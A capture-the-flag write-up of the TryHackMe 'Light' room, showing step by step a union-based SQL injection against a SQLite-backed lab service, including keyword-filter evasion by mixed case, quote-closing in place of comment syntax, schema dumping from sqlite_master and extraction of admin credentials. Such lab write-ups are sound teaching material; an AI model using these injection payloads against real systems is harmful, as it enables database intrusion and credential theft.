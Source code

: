 ```yaml
---
title: "TryHackMe: Light"
author: Kasem Shibli
categories: [TryHackMe]
date: 2025-01-20 00:00:01 +0000
tags: [sql, sql injection, sqlite]
render_with_liquid: false
media_subpath: /images/tryhackme_light/
image:
  path: room_image.webp
---
```


**Light** was a simple room where we exploited an `SQL` injection in a `SQLite` database to retrieve the credentials for the admin user and a flag.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/r/room/lightroom){: .center }

## Discovering the SQL Injection

As per the room instructions, after connecting to the service on port `1337`, we encounter a database application.

```console
$ rlwrap nc 10.10.67.194 1337
Welcome to the Light database!
Please enter your username:
```

The room also instructs us to use the username `smokey` to begin, and upon entering it, we retrieve the password for the user.

```console
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```

Since it is a database application, if we try a simple `SQL` injection with `'`, we see that it is successful as we get the error: `Error: unrecognized token: "''' LIMIT 30"`.

```console
Please enter your username: '
Error: unrecognized token: "''' LIMIT 30"
```

Trying a union-based injection and commenting out the `' LIMIT 30` part with `--`, we encounter an interesting error stating that `/*`, `--`, or `%0b` are not allowed.

```console
Please enter your username: ' UNION SELECT 1-- -
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
```

Instead of trying to comment out the last part due to the `'` causing errors, since `SELECT 1 ''` is a valid query, we can turn the query into `UNION SELECT 1 '' LIMIT 30` by appending `'` to our payload as `' UNION SELECT 1 '`. As we can see, this works, but this time we encounter an interesting error about certain words not being allowed.

```console
Please enter your username: ' UNION SELECT 1 '
Ahh there is a word in there I don't like :(
```

It seems the `UNION` and `SELECT` keywords are not allowed, but we can easily bypass this filter by using capitalization.

```console
Please enter your username: UNION
Ahh there is a word in there I don't like :(
Please enter your username: SELECT
Ahh there is a word in there I don't like :(
Please enter your username: Union
Username not found.
Please enter your username: Select
Username not found.
```

As we can see now, with the payload `' Union Select 1 '`, we are successful with a union-based injection.

```console
Please enter your username: ' Union Select 1 '
Password: 1
```

## Identifying the DBMS

With the union-based injection we have, if we attempt to identify the database management system, we discover it is `SQLite`.

```console
Please enter your username: ' Union Select version() '
Error: no such function: version
Please enter your username: ' Union Select USER_ID(1) '
Error: no such function: USER_ID
Please enter your username: ' Union Select sqlite_version() '
Password: 3.31.1
```

## Dumping Database Structure

Now that we know the DBMS is `SQLite`, we can use the payload `' Union Select group_concat(sql) FROM sqlite_master '` to extract the database structure, as shown below:

```console
Please enter your username: ' Union Select group_concat(sql) FROM sqlite_master '
Password: CREATE TABLE usertable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER),CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
```

## Extracting Data

Since our goal is to find the credentials for the admin user, we can dump the `username` and `password` fields from the `admintable` using the payload `' Union Select group_concat(username || ":" || password) FROM admintable '` and this not only gives us the credentials but also the flag, allowing us to complete the room.

```console
Please enter your username: ' Union Select group_concat(username || ":" || password) FROM admintable '
Password: Tr[REDACTED]in:ma[REDACTED]17,flag:THM{SQ[REDACTED]O?}
```
{: .wrap }

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>


